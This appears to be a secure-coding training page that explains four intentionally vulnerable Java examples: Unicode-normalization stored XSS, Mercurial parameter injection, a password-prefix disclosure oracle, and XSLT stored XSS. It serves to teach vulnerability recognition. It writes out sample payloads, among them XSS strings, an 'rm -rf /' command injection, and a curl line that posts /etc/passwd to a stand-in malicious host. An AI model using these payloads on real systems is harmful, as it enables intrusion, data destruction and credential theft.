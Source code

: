 # Contents

- [StoredXSS.java](#storedxssjava)
- [ParameterInjection.java](#parameterinjectionjava)
- [InformationDisclosure.java](#informationdisclosurejava)
- [StoredXSS_XSLT.java](#storedxss_xsltjava)

&nbsp;


## [StoredXSS.java](../../examples/insecure/java/StoredXSS.java)
Path: `examples/insecure/java/StoredXSS.java`

### Explanation
The application is monolithic and uses server-side rendering.
It fetches user comments from the backend, as we can see on line 7.
On line 9, it appears that the backend is encoding certain characters: `<` becomes `&lt;`, and `>` becomes `&gt;`.

The issue arises on line 10. While the context provided by the backend seems safe, the encoded data is passed to the Normalizer class after encoding. Essentially, the already-encoded data gets decoded. This results in the unwanted behavior of decoding the characters that should have remained encoded.

The Normalizer class likely normalizes Unicode characters, as the backend normalizes smaller or larger characters. Given this, it's reasonable to assume that the normalizer could be normalizing Unicode characters as well.

As a result, it's highly likely that a Unicode-based XSS payload will work here. For example:  
```bash
{'comment':'\ufe64script\ufe65alert(document.domain);\ufe64/script\ufe65'}
```


&nbsp;


## [ParameterInjection.java](../../examples/insecure/java/ParameterInjection.java)
Path: `examples/insecure/java/ParameterInjection.java`

### Explanation

This Java example demonstrates a **Parameter Injection vulnerability** in a Mercurial (hg) integration. The code attempts to prevent command injection through blacklisting but fails to secure the `--config` parameter, allowing arbitrary command execution.

**Insecure Blacklist Approach (Lines 8-9):**
   - Only blocks basic command injection attempts using `$(` and `backticks`
   - Does not address parameter-based attacks

#### Blocked Command Injection Attempt
```bash
hg identify http://example.com/$(id)   # Prevented by blacklist
hg identify http://example.com/`id`    # Prevented by blacklist
```

**Unsanitized Command Execution:**
- Directly incorporates user input into system commands.
- Critical Parameter in Mercurial (hg): --config allows overriding commands.

#### Parameter Injection
```bash
hg identify --config=alias.identify=!id
```
- **Mechanism:**
  1. Overrides the `identify` command alias via `--config`
  2. `!id` executes system commands through Mercurial's alias functionality
  3. Full command execution chain:
     ```
     hg → config parser → shell execution
     ```

**Attackers can execute:**
  ```bash
hg identify --config=alias.identify='!rm -rf /'  # Destructive commands
hg identify --config=alias.identify='!curl -X POST -d @/etc/passwd http://malicious.site' # Data exfiltration
  ```


&nbsp;

## [InformationDisclosure.java](../../examples/insecure/java/InformationDisclosure.java)

Path: `examples/insecure/java/InformationDisclosure.java`

### Explanation

The `/register` endpoint compares new user passwords against existing ones character by character.  
At **line 20**, the application checks if the new password **starts with** any existing password:

### **Issue:**
  - The application stores passwords **in plaintext** instead of hashing them. This makes direct comparisons possible, leading to **password disclosure.**
  - The use of `startsWith()` allows an attacker to **brute-force** the stored passwords **character by character.**

#### **Guessing Password Characters**
The attacker submits incremental passwords via the registration form:

1. `password=a` → No error → No password starts with "a"
2. `password=b` → **403 Error** → At least one password starts with "b"
3. `password=ba` → No error → The password does **not** continue with "ba"
4. `password=bb` → **403 Error** → The password starts with "bb"

#### **Extracting the Entire Password**
Repeating this process for each character reveals the complete password:

```markdown
Stored Password: "secret123"
Attacker's Attempts:
1. "s" → 403 (Correct first character)
2. "se" → 403 (Correct first two characters)
3. "sec" → 403
...
7. "secret12" → 403
8. "secret123" → Registration successful (Full password recovered)
```

&nbsp;

## [StoredXSS_XSLT.java](../../examples/insecure/java/StoredXSS_XSLT.java)

Path: `examples/insecure/java/StoredXSS_XSLT.java`

### Explanation

At line 52, the `comment.xslt` template converts user comments into HTML but **only validates the `href` attribute**, without restricting **the tag itself**.

**Issue:**  
  An attacker can inject a malicious tag like `<script>` with an `href` attribute, and XSLT **inserts it into the HTML without filtering**.

**Exploitation: Stored XSS via Malicious Comment**

```markdown
POST /comment HTTP/1.1
...
<script href="/">alert(document.cookie);</script>
```
 The `<script>` tag is processed by XSLT and inserted into the page.
 When a user visits the comments section, the `<script>` tag executes.
 **Impact:** The attacker's script runs, stealing cookies or performing further actions.


 &nbsp;